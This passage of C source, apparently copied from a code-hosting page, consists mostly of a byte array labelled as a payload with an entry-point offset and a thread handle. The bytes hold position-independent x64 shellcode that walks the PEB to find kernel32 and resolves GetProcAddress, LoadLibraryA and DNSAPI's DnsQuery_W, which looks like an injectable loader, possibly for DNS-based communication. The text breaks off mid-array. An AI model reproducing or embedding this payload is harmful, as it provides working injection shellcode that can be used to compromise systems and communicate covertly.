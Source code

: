```c
 */

#if _WIN64
#define ptr_uint uint64_t
HANDLE g_threadH;
uint32_t payload_zx = 997;
uint32_t payload_EP_offset = 0x1A0;
unsigned char rawData[] = {
    0xa0, 0x11, 0x00, 0x00, 0xcf, 0x13, 0x00, 0x00, 0xd0, 0x13, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x6b, 0x65, 0x72, 0x6e, 0x65, 0x6c, 0x33, 0x32,
    0x2e, 0x64, 0x6c, 0x6c, 0x00, 0x00, 0x00, 0x00, 0x67, 0x65, 0x74, 0x70,
    0x72, 0x6f, 0x63, 0x61, 0x64, 0x64, 0x72, 0x65, 0x73, 0x73, 0x00, 0x00,
    0x4c, 0x6f, 0x61, 0x64, 0x4c, 0x69, 0x62, 0x72, 0x61, 0x72, 0x79, 0x41,
    0x00, 0x00, 0x00, 0x00, 0x44, 0x4e, 0x53, 0x41, 0x50, 0x49, 0x2e, 0x64,
    0x6c, 0x6c, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x44, 0x6e, 0x73, 0x51,
    0x75, 0x65, 0x72, 0x79, 0x5f, 0x57, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0xef, 0x38, 0x0c, 0x66, 0x00, 0x00, 0x00, 0x00, 0x0d, 0x00, 0x00, 0x00,
    0x78, 0x00, 0x00, 0x00, 0xa4, 0x10, 0x00, 0x00, 0xa4, 0x02, 0x00, 0x00,
    0x18, 0x00, 0x00, 0x00, 0x02, 0x80, 0x02, 0x80, 0x90, 0x10, 0x00, 0x00,
    0x04, 0x00, 0x00, 0x00, 0x94, 0x10, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00,
    0xb5, 0x11, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x5c, 0x00, 0x00, 0x00,
    0x20, 0x11, 0x00, 0x00, 0xc8, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x10, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x2e, 0x70, 0x64, 0x61,
    0x74, 0x61, 0x00, 0x00, 0x10, 0x10, 0x00, 0x00, 0x68, 0x00, 0x00, 0x00,
    0x2e, 0x72, 0x64, 0x61, 0x74, 0x61, 0x00, 0x00, 0x78, 0x10, 0x00, 0x00,
    0x2c, 0x00, 0x00, 0x00, 0x2e, 0x72, 0x64, 0x61, 0x74, 0x61, 0x24, 0x76,
    0x6f, 0x6c, 0x74, 0x6d, 0x64, 0x00, 0x00, 0x00, 0xa4, 0x10, 0x00, 0x00,
    0x7c, 0x00, 0x00, 0x00, 0x2e, 0x72, 0x64, 0x61, 0x74, 0x61, 0x24, 0x7a,
    0x7a, 0x7a, 0x64, 0x62, 0x67, 0x00, 0x00, 0x00, 0x20, 0x11, 0x00, 0x00,
    0xb0, 0x02, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78, 0x74, 0x24, 0x6d, 0x6e,
    0x00, 0x00, 0x00, 0x00, 0xd0, 0x13, 0x00, 0x00, 0x18, 0x00, 0x00, 0x00,
    0x2e, 0x78, 0x64, 0x61, 0x74, 0x61, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x44, 0x0f, 0xb6, 0x01, 0x45, 0x84, 0xc0, 0x74, 0x1f, 0x41, 0x0f, 0xb6,
    0xc0, 0x48, 0x2b, 0xca, 0x44, 0x0f, 0xb6, 0xc0, 0x3a, 0x02, 0x75, 0x10,
    0x0f, 0xb6, 0x44, 0x11, 0x01, 0x48, 0xff, 0xc2, 0x44, 0x0f, 0xb6, 0xc0,
    0x84, 0xc0, 0x75, 0xe8, 0x0f, 0xb6, 0x0a, 0x33, 0xd2, 0x8b, 0xc2, 0x44,
    0x3a, 0xc1, 0x0f, 0x97, 0xc0, 0x0f, 0x92, 0xc2, 0x2b, 0xc2, 0xc3, 0xcc,
    0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc,
    0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0x0f, 0xb6, 0x02, 0x84,
    0xc0, 0x74, 0x1a, 0x48, 0x2b, 0xd1, 0x66, 0x0f, 0x1f, 0x44, 0x00, 0x00,
    0x88, 0x01, 0x48, 0x8d, 0x49, 0x01, 0x0f, 0xb6, 0x04, 0x0a, 0x84, 0xc0,
    0x75, 0xf2, 0x88, 0x01, 0xc3, 0x88, 0x01, 0xc3, 0xcc, 0xcc, 0xcc, 0xcc,
    0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0x48, 0x89, 0x5c, 0x24,
    0x08, 0x48, 0x89, 0x6c, 0x24, 0x18, 0x56, 0x57, 0x41, 0x56, 0x48, 0x81,
    0xec, 0x80, 0x01, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04, 0x25, 0x60, 0x00,
    0x00, 0x00, 0x4c, 0x8b, 0xf1, 0x48, 0x8b, 0x50, 0x18, 0x4c, 0x8b, 0x52,
    0x18, 0x4d, 0x8b, 0xca, 0x0f, 0x1f, 0x40, 0x00, 0x4d, 0x8b, 0x09, 0x49,
    0x83, 0x79, 0x30, 0x00, 0x0f, 0x84, 0x94, 0x00, 0x00, 0x00, 0x45, 0x0f,
    0xb7, 0x41, 0x58, 0x33, 0xd2, 0x4d, 0x85, 0xc0, 0x74, 0x20, 0x66, 0x0f,
    0x1f, 0x44, 0x00, 0x00, 0x48, 0x83, 0xfa, 0x40, 0x73, 0x14, 0x49, 0x8b,
    0x41, 0x60, 0x0f, 0xb6, 0x0c, 0x50, 0x88, 0x4c, 0x14, 0x30, 0x48, 0xff,
    0xc2, 0x49, 0x3b, 0xd0, 0x72, 0xe6, 0x0f, 0xb6, 0x44, 0x24, 0x30, 0x84,
    0xc0, 0x74, 0x1c, 0x48, 0x8d, 0x54, 0x24, 0x30, 0x8d, 0x48, 0xbf, 0x80,
    0xf9, 0x19, 0x77, 0x04, 0x04, 0x20, 0x88, 0x02, 0x0f, 0xb6, 0x42, 0x01,
    0x48, 0xff, 0xc2, 0x84, 0xc0, 0x75, 0xe9, 0x48, 0x8d, 0x0d, 0xda, 0xfd,
    0xff, 0xff, 0xb2, 0x6b, 0x4c, 0x8d, 0x44, 0x24, 0x30, 0x49, 0x2b, 0xc8,
    0x48, 0x8d, 0x44, 0x24, 0x30, 0x44, 0x0f, 0xb6, 0x00, 0x41, 0x3a, 0xd0,
    0x75, 0x10, 0x0f, 0xb6, 0x54, 0x01, 0x01, 0x48, 0xff, 0xc0, 0x84, 0xd2,
    0x75, 0xeb, 0x44, 0x0f, 0xb6, 0x00, 0x33, 0xc9, 0x41, 0x3a, 0xd0, 0x0f,
    0x97, 0xc1, 0x33, 0xc0, 0x41, 0x3a, 0xd0, 0x0f, 0x92, 0xc0, 0x3b, 0xc8,
    0x74, 0x09, 0x4d, 0x3b, 0xd1, 0x0f, 0x85, 0x55, 0xff, 0xff, 0xff, 0x49,
    0x8b, 0x79, 0x30, 0x45, 0x33, 0xd2, 0x48, 0x63, 0x47, 0x3c, 0x8b, 0x8c,
    0x38, 0x88, 0x00, 0x00, 0x00, 0x8b, 0x5c, 0x39, 0x1c, 0x44, 0x8b, 0x5c,
```